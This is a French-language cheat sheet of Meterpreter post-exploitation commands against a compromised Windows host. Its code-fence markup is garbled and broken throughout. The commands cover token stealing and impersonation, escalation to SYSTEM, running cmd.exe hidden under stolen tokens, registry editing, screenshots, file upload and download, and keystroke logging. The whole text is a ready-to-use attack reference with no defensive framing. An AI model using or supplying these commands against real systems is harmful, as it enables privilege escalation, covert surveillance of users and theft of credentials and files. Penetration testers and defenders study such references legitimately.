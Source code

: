 ```shell
```bash
`use incognito`
```shell
### Liste les jetons disponibles sur la cible par utilisateur
```bash
`list_tokens -u`
```shell
### Liste les jetons disponibles sur la cible par groupe
```bash
`list_tokens -g`
```shell
### Usurpe un jeton disponible sur la cible
```bash
`impersonate_token <DOMAIN_NAMEUSERNAME>`
```shell
### Vole les jetons disponibles pour un processus donné et usurpe ce jeton
```bash
`steal_token <proc. id>`
```shell
### Arrête l'usurpation du jeton actuel
```bash
`drop_token`
```shell
### Tente d'élever les privilèges au niveau SYSTEM via plusieurs vecteurs d'attaque
```bash
`getsystem`
```shell
### Accède à un shell interactif avec tous les jetons disponibles
```bash
`shell`
```shell
### Exécute cmd.exe et interagit avec lui
```bash
`execute -f <cmd.exe> -i`
```shell
### Exécute cmd.exe avec tous les jetons disponibles
```bash
`execute -f <cmd.exe> -i -t`
```shell
### Exécute cmd.exe avec tous les jetons disponibles et le rend comme processus caché
```bash
`execute -f <cmd.exe> -i -H -t`
```shell
### Revient à l'utilisateur original utilisé pour compromettre la cible
```bash
`rev2self`
```shell
### Interagit, crée, supprime, interroge, définit et bien plus dans le registre de la cible
```bash
`reg <command>`
```shell
### Bascule vers un écran différent en fonction de l'utilisateur connecté
```bash
`setdesktop <number>`
```shell
### Prend une capture d'écran de l'écran de la cible
```bash
`screenshot`
```shell
### Téléverse un fichier vers la cible
```bash
`upload <filename>`
```shell
### Télécharge un fichier depuis la cible
```bash
`download <filename>`
```shell
### Démarre la capture des frappes clavier sur la cible distante
```bash
`keyscan_start`
```